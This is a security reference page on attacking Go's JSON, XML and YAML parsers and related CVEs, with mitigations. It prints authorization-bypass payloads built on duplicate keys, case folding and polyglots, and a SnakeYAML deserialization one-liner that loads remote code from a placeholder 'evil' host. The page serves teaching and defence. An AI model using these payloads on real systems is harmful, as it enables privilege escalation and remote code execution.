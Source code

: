 # JSON, XML & Yaml Hacking & Issues

## Go JSON Decoder

The following issues were detected in the Go JSON although they could be present in other languages as well. These issues were published in [**this blog post**](https://blog.trailofbits.com/2025/06/17/unexpected-security-footguns-in-gos-parsers/).

Go’s JSON, XML, and YAML parsers have a long trail of inconsistencies and insecure defaults that can be abused to **bypass authentication**, **escalate privileges**, or **exfiltrate sensitive data**.

### (Un)Marshaling Unexpected Data

The goal is to exploit structs that allow an attacker to read/write sensitive fields (e.g., `IsAdmin`, `Password`).

- Example Struct:
```go
type User struct {
    Username string `json:"username,omitempty"`
    Password string `json:"password,omitempty"`
    IsAdmin  bool   `json:"-"`
}
```

- Common Vulnerabilities

1. **Missing tag** (no tag = field is still parsed by default):
```go
type User struct {
    Username string
}
```

Payload:
```json
{"Username": "admin"}
```

2. **Incorrect use of `-`**:
```go
type User struct {
    IsAdmin bool `json:"-,omitempty"` // ❌ wrong
}
```

Payload:
```json
{"-": true}
```

✔️ Proper way to block field from being (un)marshaled:
```go
type User struct {
    IsAdmin bool `json:"-"`
}
```

### Parser Differentials

The goal is to bypass authorization by exploiting how different parsers interpret the same payload differently like in:
- CVE-2017-12635: Apache CouchDB bypass via duplicate keys
- 2022: Zoom 0-click RCE via XML parser inconsistency
- GitLab 2025 SAML bypass via XML quirks

**1. Duplicate Fields:**
Go's `encoding/json` takes the **last** field.

```go
json.Unmarshal([]byte(`{"action":"UserAction", "action":"AdminAction"}`), &req)
fmt.Println(req.Action) // AdminAction
```

Other parsers (e.g., Java’s Jackson) may take the **first**.

**2. Case Insensitivity:**
Go is case-insensitive:
```go
json.Unmarshal([]byte(`{"AcTiOn":"AdminAction"}`), &req)
// matches `Action` field
```

Even Unicode tricks work:
```go
json.Unmarshal([]byte(`{"aKtionſ": "bypass"}`), &req)
```

**3. Cross-service mismatch:**
Imagine:
- Proxy written in Go
- AuthZ service written in Python

Attacker sends:
```json
{
  "action": "UserAction",
  "AcTiOn": "AdminAction"
}
```

- Python sees `UserAction`, allows it
- Go sees `AdminAction`, executes it

### Data Format Confusion (Polyglots)

The goal is to exploit systems that mix formats (JSON/XML/YAML) or fail open on parser errors like:
- **CVE-2020-16250**: HashiCorp Vault parsed JSON with an XML parser after STS returned JSON instead of XML.

Attacker controls:
- The `Accept: application/json` header
- Partial control of JSON body

Go’s XML parser parsed it **anyway** and trusted the injected identity.

- Crafted payload:
```json
{
  "action": "Action_1",
  "AcTiOn": "Action_2",
  "ignored": "<?xml version=\"1.0\"?><Action>Action_3</Action>"
}
```

Result:
- **Go JSON** parser: `Action_2` (case-insensitive + last wins)
- **YAML** parser: `Action_1` (case-sensitive)
- **XML** parser: parses `"Action_3"` inside the string

---

## Notable Parser Vulnerabilities (2023-2025)

> The following publicly-exploitable issues show that insecure parsing is a multi-language problem — not just a Go problem.

### SnakeYAML Deserialization RCE (CVE-2022-1471)

* Affects: `org.yaml:snakeyaml` < **2.0** (used by Spring-Boot, Jenkins, etc.).
* Root cause: `new Constructor()` deserializes **arbitrary Java classes**, allowing gadget chains that culminate in remote-code execution.
* One-liner PoC (will open the calculator on vulnerable host):
```yaml
!!javax.script.ScriptEngineManager [ !!java.net.URLClassLoader [[ !!java.net.URL ["http://evil/"] ] ] ]
```
* Fix / Mitigation:
  1. **Upgrade to ≥2.0** (uses `SafeLoader` by default).
  2. On older versions, explicitly use `new Yaml(new SafeConstructor())`. 

### libyaml Double-Free (CVE-2024-35325)

* Affects: `libyaml` ≤0.2.5 (C library leveraged by many language bindings).
* Issue: Calling `yaml_event_delete()` twice leads to a double-free that attackers can turn into DoS or, in some scenarios, heap exploitation.
* Status: Upstream rejected as “API misuse”, but Linux distributions shipped patched **0.2.6** that null-frees the pointer defensively. 

### RapidJSON Integer (Under|Over)-flow (CVE-2024-38517 / CVE-2024-39684)

* Affects: Tencent **RapidJSON** before commit `8269bc2` (<1.1.0-patch-22).
* Bug: In `GenericReader::ParseNumber()` unchecked arithmetic lets attackers craft huge numeric literals that wrap around and corrupt the heap — ultimately enabling privilege-escalation when the resulting object graph is used for authorization decisions. 

---

### 🔐 Mitigations (Updated)

| Risk                                | Fix / Recommendation                                      |
|-------------------------------------|------------------------------------------------------------|
| Unknown fields (JSON)               | `decoder.DisallowUnknownFields()`                          |
| Duplicate fields (JSON)             | ❌ No fix in stdlib — validate with [`jsoncheck`](https://github.com/dvsekhvalnov/johnny-five) |
| Case-insensitive match (Go)         | ❌ No fix — validate struct tags + pre-canonicalize input   |
| XML garbage data / XXE              | Use a hardened parser (`encoding/xml` + `DisallowDTD`)     |
| YAML unknown keys                   | `yaml.KnownFields(true)`                                   |
| **Unsafe YAML deserialization**     | Use SafeConstructor / upgrade to SnakeYAML ≥2.0            |
| libyaml ≤0.2.5 double-free          | Upgrade to **0.2.6** or distro-patched release            |
| RapidJSON <patched commit           | Compile against latest RapidJSON (≥July 2024)              |

## See also

[[mass-assignment-cwe-915.md]]

## References

- Baeldung – “Resolving CVE-2022-1471 With SnakeYAML 2.0” 
- Ubuntu Security Tracker – CVE-2024-35325 (libyaml) 

